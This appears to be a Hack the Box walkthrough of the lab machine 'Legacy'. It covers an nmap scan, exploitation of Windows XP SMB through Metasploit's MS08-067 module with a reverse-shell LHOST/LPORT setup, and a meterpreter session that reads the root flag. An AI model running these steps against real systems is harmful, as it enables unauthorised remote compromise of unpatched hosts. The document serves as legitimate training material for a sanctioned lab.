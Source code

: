 ```yaml
---
title: Legacy - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Legacy.png
---
```

![Image](/assets/Legacy.png)

Legacy is a very easy machine emphasizing the importance of keeping an OS up to date.
### Service Enumeration
Our script: `nmap -sV -sC --open -p- 10.10.10.4`

Our scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 21:28 EDT
Nmap scan report for 10.10.10.4
Host is up (0.14s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:2f:34 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY
|   Workgroup: HTB
|_  System time: 2024-09-08T06:27:05+03:00
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.25 seconds

```

We gather a hostname and see we're running Windows XP 2000. Upon research, we learn about a remote code execution vulnerability disclosed in 2008, MS08-067.

### Initial Access
We can search metasploit for our module, using `search MS08_067`. We'll see the only valid option being listed as the first. We'll equip the exploit: `use exploit/windows/smb/ms08_067_netapi`, and we'll set our parameters for the attack.

```
RHOSTS: 10.10.10.4
RPORT: 445
LHOST: 10.0.2.15
LPORT: 4444
```

Now, we'll execute.

![Image](/assets/Screenshot 2024-09-02 at 9.54.17 PM.png)

### Post Exploitation

Once in, we can root around. I've included the entire code block below to show the raw data!

```
meterpreter > cd ../
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2017-03-16 01:30:44 -0400  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2017-03-16 01:30:44 -0400  CONFIG.SYS
040777/rwxrwxrwx  0       dir   2017-03-16 02:07:20 -0400  Documents and Settings
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  IO.SYS
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-13 16:13:04 -0400  NTDETECT.COM
040555/r-xr-xr-x  0       dir   2017-12-29 15:41:18 -0500  Program Files
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:59 -0400  System Volume Information
040777/rwxrwxrwx  0       dir   2022-05-18 08:10:06 -0400  WINDOWS
100666/rw-rw-rw-  211     fil   2017-03-16 01:26:58 -0400  boot.ini
100444/r--r--r--  250048  fil   2008-04-13 18:01:44 -0400  ntldr
000000/---------  0       fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cd Documents\ and\ Settings\
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-03-16 02:07:21 -0400  Administrator
040777/rwxrwxrwx  0     dir   2017-03-16 01:29:48 -0400  All Users
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:37 -0400  Default User
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:43 -0400  NetworkService
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:42 -0400  john

meterpreter > cd Administrator\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:29 -0400  Application Data
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:27 -0400  Cookies
040777/rwxrwxrwx  0       dir   2017-03-16 02:18:27 -0400  Desktop
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:32 -0400  Favorites
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  Local Settings
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  My Documents
100666/rw-rw-rw-  786432  fil   2022-05-28 06:28:03 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2024-09-07 23:51:00 -0400  NTUSER.DAT.LOG
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  NetHood
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  PrintHood
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  Recent
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:24 -0400  SendTo
040555/r-xr-xr-x  0       dir   2017-03-16 01:20:48 -0400  Start Menu
040777/rwxrwxrwx  0       dir   2017-03-16 01:28:41 -0400  Templates
100666/rw-rw-rw-  178     fil   2022-05-28 06:28:03 -0400  ntuser.ini

meterpreter > cd Desktop\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:50 -0400  root.txt

meterpreter > cat root.txt 
993442d258b0e0ec917cae9e695d5713
```
#easy #windows #msfconsole 
